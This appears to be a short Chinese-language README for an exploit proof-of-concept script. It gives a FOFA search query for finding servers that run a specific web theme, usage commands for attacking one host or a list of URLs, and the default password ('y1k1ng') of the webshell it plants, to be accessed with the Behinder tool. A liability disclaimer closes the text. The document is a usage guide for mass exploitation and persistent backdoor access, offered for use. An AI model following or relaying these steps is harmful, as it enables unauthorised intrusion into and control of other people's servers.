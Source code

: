 # fofa语法：

body="/CSS/NewtonTheme/assets/app.css"



# 使用



python poc.py -u ip:port

python poc.py -f url.txt

![image-20231218141232094](assets/image-20231218141232094.png)

![image-20231218141301264](assets/image-20231218141301264.png)

webshell默认密码 y1k1ng

冰蝎连接

![image-20231218141409421](assets/image-20231218141409421.png)

由于传播、利用所发布的项目造成的任何直接或者间接的后果及损失，均由使用者本人承担。原文章作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！

